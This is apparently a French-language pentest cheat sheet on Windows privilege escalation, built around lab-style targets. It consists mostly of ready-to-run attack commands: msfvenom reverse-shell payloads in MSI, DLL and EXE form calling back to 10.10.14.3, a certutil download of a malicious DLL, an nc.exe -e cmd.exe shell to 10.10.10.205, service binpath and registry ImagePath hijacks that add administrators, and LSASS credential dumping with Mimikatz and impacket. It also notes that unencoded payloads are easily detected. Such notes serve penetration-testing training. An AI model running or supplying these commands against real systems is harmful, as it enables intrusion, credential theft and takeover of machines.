

## Escalade de privilèges Windows : Services, DLL Hijacking et Kernel



### Énumération des privilèges et services
L'analyse des privilèges et des services est une étape critique pour identifier les vecteurs d'élévation.

```bash
whoami /priv
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /v """
```

### Token Manipulation (Incognito)
Lorsqu'un utilisateur possède le privilège `SeImpersonatePrivilege` ou `SeAssignPrimaryTokenPrivilege`, il est possible d'usurper le jeton d'un processus SYSTEM. Cette technique est documentée dans **Windows Privilege Escalation Fundamentals**.

```bash
# Lister les tokens disponibles
incognito.exe list_tokens -u

# Impersonation d'un jeton SYSTEM
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
```

### Exploitation de services via AlwaysInstallElevated
Si les clés de registre `AlwaysInstallElevated` sont activées, les fichiers MSI sont exécutés avec les privilèges SYSTEM.

```bash
# Vérification des clés de registre
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Génération et exécution du payload MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f msi > evil.msi
msiexec /quiet /qn /i evil.msi
```

### Analyse de fichiers de configuration sensibles
L'énumération locale permet souvent de trouver des identifiants en clair dans des fichiers de configuration. Voir **Active Directory Enumeration** pour le contexte des comptes de service.

| Fichier | Emplacement courant |
| :--- | :--- |
| **web.config** | `C:\inetpub\wwwroot\` |
| **unattend.xml** | `C:\Windows\Panther\` |
| **sysprep.inf** | `C:\Windows\System32\sysprep\` |

```bash
# Recherche récursive de mots-clés
findstr /si password *.xml *.config *.ini
```

### Utilisation de Mimikatz pour le dump de LSASS
Le dump de la mémoire du processus `lsass.exe` permet d'extraire des hashs NTLM ou des tickets Kerberos. Cette étape est cruciale pour le **Lateral Movement Techniques**.

```bash
# Dump via Mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

# Dump via impacket (depuis une machine distante)
impacket-secretsdump -just-dc-ntlm domain/user:password@target-ip
```

### DLL Hijacking
Le **DLL Hijacking** repose sur l'ordre de recherche des bibliothèques par Windows. Il est impératif de vérifier les permissions d'écriture sur les répertoires parents avant toute tentative.

> [!warning] 
> Vérifier toujours les permissions d'écriture sur les répertoires parents avant le DLL Hijacking.

```bash
# Génération de la DLL malveillante
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

# Téléchargement sur la cible
certutil.exe -f -urlcache http://10.10.14.3:8080/srrstr.dll srrstr.dll

# Exécution via binaire auto-élevé
rundll32 shell32.dll,Control_RunDLL srrstr.dll
```

> [!danger] 
> L'utilisation de **msfvenom** sans encodage est fortement détectable par les solutions modernes.

### Abus de services (Weak Permissions)
Les services mal configurés permettent souvent de modifier le chemin de l'exécutable (**binpath**) ou de remplacer le binaire directement.

| Outil | Utilité |
| :--- | :--- |
| **accesschk.exe** | Vérification des droits d'accès sur services/fichiers |
| **icacls** | Vérification des ACL sur fichiers/dossiers |
| **sc config** | Modification de la configuration des services |

```powershell
# Vérification des permissions sur un service
accesschk.exe -quvcw WindscribeService

# Modification du binpath pour exécution de commande
sc config WindscribeService binpath= "cmd /c net localgroup administrators htb-student /add"
sc stop WindscribeService
sc start WindscribeService
```

> [!note] 
> Le redémarrage du service est souvent nécessaire pour appliquer les changements de **binpath**.

### Exploitation Kernel et Registre
L'exploitation du noyau ou des clés de registre permet une élévation stable si les correctifs de sécurité sont absents.

```powershell
# Audit des permissions de registre
accesschk.exe /accepteula mrb3n -kvuqsw hklm\System\CurrentControlSet\services

# Modification de l'ImagePath via PowerShell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\nc.exe -e cmd.exe 10.10.10.205 443"
```

> [!warning] 
> Attention au bruit généré par les reverse shells et la création d'utilisateurs (EDR/AV).

### Techniques complémentaires
Les sujets suivants sont étroitement liés à ces méthodes d'escalade :
- **Windows Privilege Escalation Fundamentals** : Base théorique des jetons et permissions.
- **Active Directory Enumeration** : Utile pour identifier des comptes avec des droits étendus.
- **Post-Exploitation Persistence** : Maintien de l'accès après élévation.
- **Lateral Movement Techniques** : Utilisation des privilèges acquis pour pivoter dans le domaine.

### Payloads courants
```bash
# Reverse shell standard
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

# Ajout d'utilisateur administrateur
msfvenom -p windows/x64/exec CMD="net localgroup Administrators user /add" -f exe > adduser.exe
```